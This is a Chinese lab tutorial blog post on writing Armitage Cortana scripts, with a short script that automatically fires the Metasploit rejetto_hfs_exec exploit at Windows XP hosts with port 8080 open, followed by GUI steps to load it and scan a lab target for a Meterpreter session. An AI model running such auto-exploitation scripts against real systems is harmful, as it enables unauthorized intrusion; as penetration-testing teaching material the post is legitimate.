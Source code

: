 ```yaml
---
layout: post
category: binghe-code-hack
title: Armitage脚本编写
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: Armitage脚本编写
lock: need
---
```


# Armitage脚本编写

Cortana是一种脚本语言，在Armitage中用来创建攻击向量。

攻击机 Kali 192.168.175.128

靶机 WinXP 192.168.175.130

### 编写Cortana脚本8080.cna

```
on service_add_8080{
    println("Hacking a Host running $1 (" . host_os($1) . ")");
    if(host_os($1) eq "Windows XP"){
        exploit("windows/http/rejetto_hfs_exec", $1, %(RPORT => "8080"));
    }
}
```

当使用Nmap或者MSF扫描发现目标的8080端口处于开放状态时，脚本就会执行。这段脚本会交叉目标系统是否为Windows XP；如果结果为真，Cortana就会自动利用rejetto_hfs_exec渗透模块攻击目标的8080端口。

在这段脚本中，`$1指明主机的IP地址；println函数输出打印字符和变量；host_os作为一个Cortana中编写的函数可以返回主机的操作系统类型；函数exploit在参数$`1指定的IP地址启动一个渗透模块；%表示为渗透模块设置的选项，如果服务运行在不同的端口或者需要其他细节时，可以通过%设置这些渗透模块的选项；service_add_8080指定了当在特定客户端发现开放的8080端口时触发的事件。

### 加载8080.cna脚本

首先，输入命令armitage打开Armitage，接着依次单击Armitage->Scripts

![img](https://img-blog.csdnimg.cn/20190128205219905.png)

结果如下：

![img](https://img-blog.csdnimg.cn/2019012820523796.png)

多了一个Scripts面板。

这里我们单击Load按钮：

![img](https://img-blog.csdnimg.cn/20190128205256597.png)

弹出对话框，选择8080.cna然后点击打开按钮：

![img](https://img-blog.csdnimg.cn/20190128205600498.png)

之后选中8080.cna单击Console按钮

![img](https://img-blog.csdnimg.cn/20190128205614219.png)

单击Console后如下图所示：

![img](https://img-blog.csdnimg.cn/2019012821054976.png)

打开了Cortana命令行，这里我们输入help查看下帮助菜单：

![img](https://img-blog.csdnimg.cn/20190128210605131.png)

命令说明如下：

```
cortana> help   

Commands
--------
askoff #参数为cna脚本，关闭脚本交互功能
askon #参数为cna脚本，开启脚本交互功能
help #查看帮助信息
load #参数为路径，加载Cortana脚本
logoff #参数为cna脚本，关闭脚本日志记录
logon #参数为cna脚本，开启脚本日志记录
ls #列出加载的脚本
proff #参数为cna脚本，关闭脚本分析器
profile #参数为cna脚本，查看脚本简介
pron #参数为cna脚本，开启脚本分析器
reload #参数为cna脚本，重新加载脚本
troff #参数为cna脚本，关闭脚本跟踪功能
tron #参数为cna脚本，开启脚本跟踪功能
unload #参数为cna脚本，卸载脚本
```

接下来，我们通过logon开启脚本日志

![img](https://img-blog.csdnimg.cn/20190128210757779.png)

### 扫描目标主机

依次单击Hosts->Nmap Scan->Intense Scan

![img](https://img-blog.csdnimg.cn/20190128210825352.png)

弹出对话框输出扫描的目标主机范围：

![img](https://img-blog.csdnimg.cn/20190128210841856.png)

![img](https://img-blog.csdnimg.cn/20190128210850352.png)

开始扫描，扫描完成之后，如果目标主机中有打开8080端口，并且操作系统是Windows XP，同时，Windows XP 8080端口上运行的是HFS 2.3。那么，在Cortana命令行下就会获取到目标主机的Meterpreter权限。

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
